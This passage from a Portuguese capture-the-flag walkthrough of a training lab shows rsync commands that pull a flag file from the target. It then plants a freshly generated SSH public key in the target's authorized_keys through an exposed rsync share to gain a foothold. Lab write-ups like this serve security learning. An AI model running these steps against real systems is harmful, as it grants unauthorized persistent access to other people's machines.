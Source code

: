 ### Terceira Flag
Download do user.txt  
`rsync --progress rsync://rsync-connect@10.10.141.166/files/sys-internal/user.txt .`
![alt text](/assets/img/internal/internal5.png)
## **Acesso/Foothold**
É possível enviar chave ssh para .ssh do server via rsync

Gerando key ssh e adicionando ao servidor

```shell
─ ssh-keygen   
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): ssh
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ssh
Your public key has been saved in ssh.pub
The key fingerprint is:
SHA256:rFaOZsilZ+ZWo+HqrtTvNQlbo/7fWSMSfsur1lLYhec kali@kali
The keys randomart image is:
+--[ED25519 256]--+
|                 |
|                 |
|             .   |
|       .    . o  |
|      o S .o +   |
|   o +.Xo+..o E  |
|  . =.%+=.ooo o  |
| .   @+. .o=.= . |
|  .+++=..ooo*.   |
+----[SHA256]-----+
╭─      ~/thm/vulnNetinternal        
╰─ ls    
business-req.txt  data.txt  enum4lin.log  nmap  nmapsc  nmapudp  services.txt  ssh  ssh.pub  tmp  user.txt
╭─      ~/thm/vulnNetinternal        
╰─ rsync ssh.pub rsync://rsync-connect@10.10.141.166/files/sys-internal/.ssh/authorized_keys
Password: 
╭─      ~/thm/vulnNetinternal                       ✔  7s   
╰─ rsync rsync://rsync-connect@10.10.141.166/files/sys-internal/.ssh/ 

Password: 
drwxrwxr-x          4,096 2024/02/18 21:43:35 .
-rw-r--r--             91 2024/02/18 21:43:23 authorized_keys
```
{: .nolineno }
### Conectando via ssh
